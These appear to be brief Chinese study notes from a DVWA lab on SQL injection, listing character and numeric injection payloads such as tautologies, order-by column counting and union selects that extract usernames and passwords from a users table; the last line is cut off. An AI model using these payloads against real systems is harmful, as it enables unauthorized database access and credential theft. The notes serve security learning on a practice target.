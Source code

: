 <!-- 
title: 11-DVWA
sort: 
--> 

## SQL

### 字符注入

> 使用`1+2`测试输出
>
> `SELECT xx FROM x WHERE id = $id;`

1. `' or 1=1 or ' `

   > 假 真 假 -》全部

2. `' or '1'='1 `

   > 假 真 -》全部

3. `' or 1=1 #`

   > 假 真 注释‘

### 查询

1. 查询共有几行

   `1' order by 1 #`

   `1' order by 2 #`

   `1' order by 3 #`

   报错

2. 联合查询

   `1' union select 1,2 #`

   `1' union select user(),database() #`

   `1' union select user,password from users #`

## 数字注入

> 引号会被转义
>
> `1+2`对于算式会运算后进行查询

`1 union select user,password from use`